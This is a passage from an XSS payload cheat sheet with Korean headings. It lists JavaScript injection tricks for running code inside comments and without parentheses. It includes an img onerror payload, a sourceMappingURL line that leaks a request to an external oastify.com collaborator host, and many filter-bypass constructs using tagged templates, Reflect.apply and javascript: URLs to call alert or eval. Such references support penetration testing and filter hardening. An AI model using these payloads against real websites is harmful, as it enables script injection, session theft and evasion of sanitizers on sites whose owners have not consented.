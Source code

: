 ```javascript

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```
**주석 내부의 Javascript**
```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```
**괄호 없이 JavaScript**
````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
// or any DOMXSS sink such as location=name

// Backtips
// Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`

// To pass several arguments you can use
function btt(){
console.log(arguments);
}
btt`${'arg1'}${'arg2'}${'arg3'}`

//It's possible to construct a function and call it
Function`x${'alert(1337)'}x```

// .replace can use regexes and call a function if something is found
"a,".replace`a${alert}` //Initial ["a"] is passed to str as "a," and thats why the initial string is "a,"
"a".replace.call`1${/./}${alert}`
// This happened in the previous example
// Change "this" value of call to "1,"
// match anything with regex /./
// call alert with "1"
"a".replace.call`1337${/..../}${alert}` //alert with 1337 instead

// Using Reflect.apply to call any function with any argumnets
Reflect.apply.call`${alert}${window}${[1337]}` //Pass the function to call (“alert”), then the “this” value to that function (“window”) which avoids the illegal invocation error and finally an array of arguments to pass to the function.
Reflect.apply.call`${navigation.navigate}${navigation}${[name]}`
// Using Reflect.set to call set any value to a variable
Reflect.set.call`${location}${'href'}${'javascript:alert\x281337\x29'}` // It requires a valid object in the first argument (“location”), a property in the second argument and a value to assign in the third.



// valueOf, toString
// These operations are called when the object is used as a primitive
````